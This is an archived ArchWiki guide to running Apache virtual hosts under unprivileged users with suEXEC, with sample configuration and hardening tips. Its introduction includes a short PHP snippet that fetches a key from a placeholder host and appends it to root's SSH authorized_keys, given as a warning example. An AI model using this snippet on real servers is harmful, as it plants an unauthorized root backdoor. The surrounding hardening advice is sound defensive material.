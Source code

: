 Apache, suEXEC and Virtual Hosts
================================

  
 This document describes how to use Apache's suEXEC module in order to
have virtual hosts running as a unprivileged user. Generally it's good
practice not to let any kind of webspace have superuser privileges like
this rather brutal PHP example shows:

       <?php
         # of course this link doesn't lead anywhere
         $rsa_key = file('http://yourhost.homeip.net/id_rsa.pub');
         exec("cat ${rsa_key[[0]]} >>/root/.ssh/authorized_keys");
       ?>

You get the point, do you? To prevent this, never let any virtual host
have write access anywhere but in its own home directory or
DocumentRoot. Unfortunately this method requires Apache to run as
superuser in order to be able to become another user but it's not a big
deal since you do not need to run in the default DocumentRoot as
superuser too.

You should also consider using suEXEC if you intend to have several FTP
accounts pointing to those webspaces which need write permissions while
the files still can be read by Apache.

+--------------------------------------------------------------------------+
| Contents                                                                 |
| --------                                                                 |
|                                                                          |
| -   1 Prerequisites                                                      |
| -   2 Adding the suEXEC module to Apache                                 |
| -   3 Setting up a virtual Host to use suEXEC                            |
| -   4 "Disabling" default DocumentRoot                                   |
| -   5 Finishing up                                                       |
| -   6 References                                                         |
+--------------------------------------------------------------------------+

Prerequisites
-------------

-   you should be familiar with basic configuration of Apache
    -   especially virtual hosts

-   superuser access to the target box
-   knowledge about adding users
-   can work with pacman

Adding the suEXEC module to Apache
----------------------------------

-   load the suEXEC module in /etc/httpd/conf/httpd.conf like this:

    LoadModule suexec_module        lib/apache/mod_suexec.so

-   make sure Apache's default DocumentRoot does not run as superuser
    either!

    User http
    Group http

Setting up a virtual Host to use suEXEC
---------------------------------------

One way to do it is directly in /etc/httpd/conf/httpd.conf but I suggest
to use a separate file if you intend to create more than just a couple
of virtual hosts. Either way, a virtual host that is supposed to use
suEXEC may look something like this:

    <VirtualHost 192.168.0.1:80>
            ServerName myhost
            ServerAlias  myhost.localdomain
            # this is where requests for / go
            DocumentRoot /home/www/vhosts/myhost.localdomain/htdocs

            # here you tell which user (myhost) and group (ftponly) Apache should use
            SuexecUserGroup myhost ftponly

            # the following are optional but might be of use for you
            ScriptAlias /cgi-bin/ /home/www/vhosts/myhost.localdomain/htdocs/cgi-bin
            php_admin_value open_basedir /home/www/vhosts/myhost.localdomain/htdocs
            php_admin_value upload_tmp_dir  /home/www/vhosts/myhost.localdomain/tmp
            # Safe mode will be removed as of PHP 6. You may want to not enable it.
            php_admin_flag safe_mode On
            ErrorDocument 404 /home/www/vhosts/myhost.localdomain
            <Directory "/home/www/vhosts/myhost.localdomain/htdocs">
                    AllowOverride None
                    Order allow,deny
                    Allow from all
                    Options +SymlinksIfOwnerMatch +Includes
            </Directory>
    </VirtualHost>

Note that we set upload_tmp_dir to a folder that is outside the document
root of your web site (not
/home/www/vhosts/myhost.localdomain/htdocs/tmp). It should also be not
readable or writable by any other system users. This is for security
reasons: this way it cannot be modified or overwritten while PHP is
processing it.

"Disabling" default DocumentRoot
--------------------------------

To further harden your setup you can disable the default DocumentRoot in
order to not have Apache execute anything as the superuser itself runs
as. This procedure does not really disable it, rather points it
somewhere where it's not remotely accessible anymore. It can be easily
achieved by replacing your default ServerName with the following:

    ServerName localhost:80

Finishing up
------------

Every time you change default configuration parameters you need to
restart httpd (Apache) to make them take effect.

References
----------

-   more in depth information about suEXEC:
    http://httpd.apache.org/docs/suexec.html
-   same about VirtualHosts:
    http://httpd.apache.org/docs/vhosts/index.html

Retrieved from
"https://wiki.archlinux.org/index.php?title=Apache,_suEXEC_and_Virtual_Hosts&oldid=235023"

Category:

-   Web Server
